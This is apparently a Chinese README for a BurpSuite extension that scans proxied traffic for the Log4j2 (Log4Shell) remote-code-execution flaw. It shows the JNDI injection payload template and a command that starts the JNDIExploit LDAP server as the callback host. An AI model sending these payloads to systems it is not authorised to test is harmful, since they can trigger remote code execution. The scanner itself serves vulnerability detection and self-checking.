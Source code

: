 # Log4j2 RCE Scanner

**作者**：key@元亨实验室

**小广告**：实验室纳新招人，岗位方向有安全研究（攻防、漏洞）、威胁情报（APT分析）、内部安全（SDL、安全研发），简历投递至邮箱：c2VjdXJpdHlAemhvbmdmdS5uZXQ=

## 前言

这是一个用于扫描近期爆出的Log4j2 RCE漏洞的BurpSuite插件，其原理就是基于BurpSuite提供的被动式扫描API，对流经Burp Proxy模块的流量进行全量扫描，扫描作用域为：请求参数（JSON字段、正常请求参数、Cookie参数、XML字段、Mulitpart）、请求头（请求自带请求头与自定义请求头）。

它与其他插件的区别：

1. 一个点一个Payload（Hash区分），便于追踪漏洞位置；
2. 仅支持LDAP Log接口，不支持DNS扫描探测，便于快速定位有效漏洞位置进行自查自检；
3. 使用Python（Jython）编写，可以非常快速的进行二次开发、代码阅读，例如你可以改造这个项目为SQL注入、XSS盲打的探测插件；
4. 支持扫描作用域相对较全。

## 使用方法

1. **准备工作**：该插件用Python（Jython）所写，所以需要你的BurpSuite加载Jython的Jar包，下载地址：https://repo1.maven.org/maven2/org/python/jython-standalone/2.7.2/jython-standalone-2.7.2.jar，BurpSuite加载位置：BurpSuite - Extender - Options - Python Environment - Location of Jython standalone JAR file。

2. **准备LDAP Log接口**：由于插件的特殊性，在不更改插件代码的情况下，建议你准备一台服务器，在上面部署LDAP服务并提供一个Web API给到插件，这里推荐[Command2API](https://github.com/gh0stkey/Command2API)项目，搭配JNDIExploit使用。

   ```python
   python Command2Api.py "java -jar JNDIExploit.v1.2/JNDIExploit-1.2-SNAPSHOT.jar -i 0.0.0.0" 9889
   ```

   ![](images/0.png)

3. **填写配置**：下载Python文件到本地，存储在无空格、无特殊符号、无中文的目录下，接着替换如下代码：

   ```python
   # LDAP_API_HOST -> LDAP Log接口的主机地址（域名/IP，请注意内、外网环境）
   # LDAP_API_PORT -> LDAP Log接口的主机端口
   # LDAP_API_PORT -> LDAP Log接口的路由
   # 建议搭配Command2API项目一起使用，其他接口请自行更改代码
   url = "http://LDAP_API_HOST:LDAP_API_PORT/LDAP_API_ROUTE"
   # LDAP_HOST -> LDAP 服务的主机地址（域名/IP，请注意内、外网环境）
   # LDAP_PORT -> LDAP 服务的主机端口
   return self._helpers.urlEncode("${jndi:ldap://LDAP_HOST:LDAP_PORT/" + random_md5 + "}")
   ```

   ![](images/2.png)

4. **加载插件**：BurpSuite加载位置：BurpSuite - Extender - Extensions - Burp Extensions - Add。

   ![](images/1.png)

5. **开始扫描**：浏览器挂上BurpSuite代理，让流量流经BurpSuite，插件会自动扫描，或者你可以选择结合爬虫的方式将爬虫流量过到BurpSuite进行扫描。

6. **扫描结果**：扫描结果会在Burp Dashboard中展示出来，并且有具体的请求报文，如下图所示，分别是Command2API与LDAP服务接收的日志（**由于该漏洞的触发特殊性，建议对这些日志和BurpSuite流量进行保存**）以及Burp的扫描结果。

   ![](images/3.png)

